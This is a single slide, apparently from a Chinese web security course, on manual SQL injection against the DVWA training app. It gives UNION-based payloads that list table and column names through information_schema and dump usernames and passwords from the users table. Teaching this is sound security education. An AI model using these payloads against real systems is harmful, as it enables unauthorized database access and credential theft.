

# SQL手工注入的思路–3 注入并获取数据
可以直接查询information_schema库来获得目标信息
例如，在dvwa中猜测表名：
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema =database()#

猜列名
1' union select 1,group_concat(column_name) from information_schema.columns where table_name ='users'#
猜用户密码
1' union select user, password from users #
获取所有表结构(TABLES)
SELECT  *  FROM information_schema.TABLES WHERE  TABLE_SCHEMA='数据库';

Group_concat把属于一个group的元素整合在一行里，将多个字符串连接成一个字符串
28
2022/6/11